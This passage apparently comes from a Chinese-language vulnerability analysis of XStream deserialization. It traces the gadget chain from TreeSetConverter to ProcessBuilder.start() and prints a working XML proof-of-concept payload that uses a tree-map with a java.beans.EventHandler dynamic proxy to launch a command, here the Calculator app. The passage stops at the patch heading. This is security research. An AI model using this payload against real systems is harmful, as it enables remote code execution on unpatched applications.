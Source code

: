 ```
    Field field = (Field)fields.get(definedIn != null ? new FieldKey(name, definedIn, -1) : name); // fields中包含该类所有的属性对应情况，形如target -> {Field@1758} "private java.lang.Object java.beans.EventHandler.target"
    return field;
}
```
doUnmarshal对子标签进行循环解析,解析Command子标签，ArrayList类型对应转换器CollectionConverter，然后进入到CollectionConverter.unmarshal。再对子标签String进行解析，String对应转换器SingleValueConverterWrapper，它的unmarshal方法实际就是对String标签中的值进行获取

* #### 漏洞成因
这个poc的入口选取的Sorted-set，对应TreeSetConverter
```
TreeSetConverter.unmarshal()
  TreeMapConverter.populateTreeMap()
    TreeMap.putAll()
      AbstractMap.putAll()
        TreeMap.put()
          TreeMap.compare()
            $Proxy0.compareTo()
              EventHandler.invoke()
                EventHandler.invokeInternal()
                  ...
                    ProcessBuilder.start()
```
执行到EventHandler.invokeInternal()中，有一句反射调用，此时传入的targetMethod是`ProcessBuilder.start()`，target是`ProcessBuilder`对象，newArgs是参数数组
```
return MethodUtil.invoke(targetMethod, target, newArgs);
```

* #### POC2
上面提到treeSet底层也是用treeMap来处理的，所以可以用treemap标签来替换
```
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>open</string>
                        <string>/System/Applications/Calculator.app</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
TreeMap的基础用法和对应的xml结构如下，然后将对象换成动态代理即可。
```
Map<String, String> map = new TreeMap<>();
map.put("axisx", "ddd");

<tree-map>
  <entry>
    <string>axisx</string>
    <string>ddd</string>
  </entry>
</tree-map>
```
#### 补丁修复